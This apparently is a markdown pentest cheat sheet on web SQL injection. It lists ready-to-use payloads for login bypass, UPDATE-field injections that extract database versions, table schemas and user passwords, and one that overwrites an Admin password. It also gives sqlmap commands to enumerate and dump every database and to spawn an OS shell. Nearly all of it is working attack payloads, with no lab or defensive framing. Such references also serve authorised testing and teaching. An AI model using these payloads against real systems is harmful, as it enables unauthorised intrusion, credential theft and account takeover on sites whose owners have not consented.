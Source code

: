 # 3.1.2 - [WEB] SQL Injection

```bash
# Input non string 
1 or 1=1-- -

# Input string
1' or '1'='1'-- -

# URL Injection for bypass clinet-side control
http://<url>/login?profile=-1' or 1=1-- -&password=a

# POST Injection
# -> Capture the request with tool like Burp and build the request what you want for remove controls modifiction into

# Update Injection
# In a form for change any information. first, if the source code field name is like the database columns
asd',nickName='test',email='test
# For retrieve database engine and version
# MySQL and MSSQL
',nickName=@@version,email='
# For Oracle
',nickName=(SELECT banner FROM v$version),email='
# For SQLite
',nickName=sqlite_version(),email='
# Return tables from sqlite db
',nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),email='
# Extract name columns
',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='<name_table>'),email='
# With the name columns, extract values
',nickName=(SELECT group_concat(profileID || "," || name || "," || password || ":") from usertable),email='
# Update password in db
', password='<hash>' WHERE name='Admin'-- -
```

---

# SQLMAP

```bash
$ sqlmap -h
$ sqlmap -hh
```

### Wizard

```bash
$ sqlmap --wizard
```

# Simple Commands examples

```bash
# Multiple test with parameters
$ sqlmap -u <url> --data=<string_post> --level=<level>
$ sqlmap -u <url> --data="id=1"

# Try to spawn shell
$ sqlmap -u <url> --data=<string_post> --os-shell
```

---

# Process GET and POST

Capture request with Burp and save result in file (for the post requests).

Find DB

```bash
$ sqlmap -u <url> --dbs
# OR
$ sqlmap -r <request_file> -p <vulnerable_parameter> --dbs
```


Find tables

```bash
$ sqlmap -u <url> -D <database_name> --tables
# OR
$ sqlmap -r <request_file> -p <vulnerable_parameter> -D <db_name> --tables
```

Extract tables 

```bash
$ sqlmap -u <url> -D <db_name> -T <table_name> --columns
# OR
$ sqlmap -r <request_file> -D <database_name> -T <table_name> --columns
```

---

Dump all databases and tables 

```bash
$ sqlmap -u <url> -D <database_name> --dump-all
# OR
$ sqlmap -r <request_file> -D <database_name> --dump-all
```
